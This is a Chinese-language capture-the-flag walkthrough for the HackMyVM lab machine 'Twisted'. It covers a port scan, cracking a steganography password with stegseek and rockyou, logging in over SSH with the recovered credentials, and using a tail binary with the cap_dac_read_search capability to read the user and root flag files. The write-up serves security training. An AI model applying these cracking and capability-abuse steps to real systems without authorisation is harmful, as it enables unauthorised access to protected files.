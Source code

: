 # Twisted

2024-11-05 https://hackmyvm.eu/machines/machine.php?vm=Twisted

## IP

192.168.5.40

## Scan

```
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  ssh
```

先看 80 web 服务，2 张猫图，第二个有隐藏信息，steghide 发现需要输入密码，使用 stegseek 进行爆破：

```
stegseek --crack 1111.jpg /usr/share/wordlists/rockyou.txt
```

发现密码: sexymama 得到隐藏的文件名为 mateo.txt 内容为：

```
thisismypassword
```

猜测可能 ssh -p 2222 的登陆凭据为 mateo/thisismypassword，尝试登陆，登陆成功。

发现提示信息在 wav 文件中：

```
cat note.txt
/var/www/html/gogogo.wav
```

gogogo.wav 音频为摩尔斯码，使用解码工具 https://morsecode.world/international/decoder/audio-decoder-adaptive.html ，得到代表的内容为：

```
GODEEPER . . . COMEWITHME . . . LITTLERABBIT . . .
```

没什么有用信息。

/home/bonita/user.txt 中有 flag 信息，但是必须提权到 bonita 用户。

sudo 和 suid 都没发现特殊地方，getcap 发现 tail 能够读取特权文件：

```
/usr/sbin/getcap -r / 2>/dev/null

/usr/bin/ping = cap_net_raw+ep
/usr/bin/tail = cap_dac_read_search+ep
```

直接读取 bonita 文件夹下的 user flag 文件：

```
mateo@twisted:/home/bonita$ /usr/bin/tail user.txt
HMVblackcat
```

读取 root 文件夹中的 root flag ：

```
mateo@twisted:/home/bonita$ /usr/bin/tail /root/root.txt
HMVwhereismycat
```
